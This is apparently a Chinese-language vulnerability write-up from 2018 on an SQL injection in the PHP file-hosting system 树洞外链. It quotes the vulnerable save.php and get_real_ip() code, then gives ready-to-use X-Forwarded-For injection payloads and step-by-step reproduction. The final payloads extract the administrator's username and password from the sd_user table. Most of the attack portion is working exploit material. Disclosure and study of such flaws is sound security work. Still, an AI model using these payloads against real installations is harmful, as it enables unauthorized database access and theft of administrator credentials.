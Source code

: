 ```yaml
---
title: "树洞外链 insert 注入"
date: 2018-01-01T00:00:00+08:00
draft: false
tags: ['cms','php']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


树洞外链是一款免费开源的 PHP 外链网盘系统.

<!--more-->

/includes/save.php 23-28 行

```
$ip=get_real_ip();
$dd=date('Y-m-d H:i:s');
$rand = md5(time() . mt_rand(0,1000));
$stmt = $con->prepare("INSERT INTO  `$sqlname`.`sd_file` (`ming` ,`key1` ,`uploadip` ,`uploadtime` ,`cishuo` ,`upuser` ,`policyid`)VALUES (?, '$rand', '$ip', '$dd', '0' , '$uploadUser', '$policyId');");
$stmt->bind_param('s', $ming);
$stmt->execute();
```

调用了 get_real_ip() 之后没有过滤直接 insert

/includes/function.php 36-52 行

```
function get_real_ip(){
$ip=false;
if(!empty($_SERVER["HTTP_CLIENT_IP"])){
$ip = $_SERVER["HTTP_CLIENT_IP"];
}
if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
for ($i = 0; $i < count($ips); $i++) {
if (!eregi ("^(10|172\.16|192\.168)\.", $ips[$i])) {
$ip = $ips[$i];
break;
}
}
}
return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```

X-Forwarded-For

构造 payload

```
X-Forwarded-For: 1.1.1.1',user(),'0',uid,uid); #
```

注册用户

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782481.jpg)

个人资料 - 查看 uid

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782681.jpg)

访问 /includes/save.php

别忘了带上 ming 参数 (post)

添加 X-Forwarded-For 更改uid

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782764.jpg)

查看我的文件

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782795.jpg)

`root@localhost`

exp

```
username: X-Forwarded-For: 1.1.1.1',(select username from sd_user where id=1),'0',uid,uid); #
password: X-Forwarded-For: 1.1.1.1',(select pwd from sd_user where id=1),'0',uid,uid); #
```
